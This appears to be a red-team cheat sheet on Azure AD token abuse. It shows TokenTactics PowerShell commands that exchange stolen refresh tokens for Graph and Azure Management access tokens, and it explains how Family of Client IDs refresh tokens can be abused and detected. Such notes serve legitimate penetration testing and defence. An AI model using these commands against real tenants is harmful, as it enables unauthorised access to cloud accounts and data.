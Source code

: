 ```
Get-Command *Invoke-RefreshTo*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Invoke-RefreshToAzureCoreManagementToken           0.0.2      TokenTactics
Function        Invoke-RefreshToAzureManagementToken               0.0.2      TokenTactics
Function        Invoke-RefreshToDODMSGraphToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToGraphToken                         0.0.2      TokenTactics
Function        Invoke-RefreshToMAMToken                           0.0.2      TokenTactics
Function        Invoke-RefreshToMSGraphToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToMSManageToken                      0.0.2      TokenTactics
Function        Invoke-RefreshToMSTeamsToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeAppsToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeManagementToken              0.0.2      TokenTactics
Function        Invoke-RefreshToOutlookToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToSharepointOnlineToken              0.0.2      TokenTactics
Function        Invoke-RefreshToSubstrateToken                     0.0.2      TokenTactics
Function        Invoke-RefreshToYammerToken                        0.0.2      TokenTactics
```

```
$GraphAccessToken = (Invoke-RefreshToMSGraphToken -domain <DOMAIN>.onmicrosoft.com -refreshToken $tokens.refresh_token).access_token

$ARMAccessToken = (Invoke-RefreshToAzureManagementToken -domain <COMPANY>.onmicrosoft.com -refreshToken $response.refresh_token).access_token
```

### Family of Client IDs (FOCI) FRT Abuse
- Family of Client IDs (FOCI) is a set of Microsoft client applications that are "compatible" with each other. "Family Refresh Token (FRT)" can be used to request refresh and access tokens for any other client applications in the family
	- Not bound to client_id or scope
	- Can be used to request refresh and access token of any client application in the family
	- Currently, there is only one family and it contains many "First-Party" Microsoft Applications with "public" client IDs - Office, Teams, Az CLI, Az PowerShell, Microsoft support, OneDrive etc.
		- The applications are in every tenant and do not require implied consent or pre-consent
	- Can not change privileges - Azure AD role based level of access cannot be changed
- Using a refresh token for ARM for Az PowerShell client id we can request tokens for MSGraph for office client id. Or the other way around
- https://github.com/secureworks/family-of-client-ids-research

#### Compatible clients
- https://github.com/secureworks/family-of-client-ids-research/blob/main/known-foci-clients.csv

#### Check FOCI in token
- If you have AccessTokens in a variable there is a attribute with the name `foci`
- If foci = 1 then its a FOCI access token and its possible to abuse FOCI
```
$tokens

token_type     : Bearer
scope          : ...snip...
expires_in     : ...snip...
ext_expires_in : ...snip...
access_token   : ...snip...
refresh_token  : ...snip...
foci           : 1
```
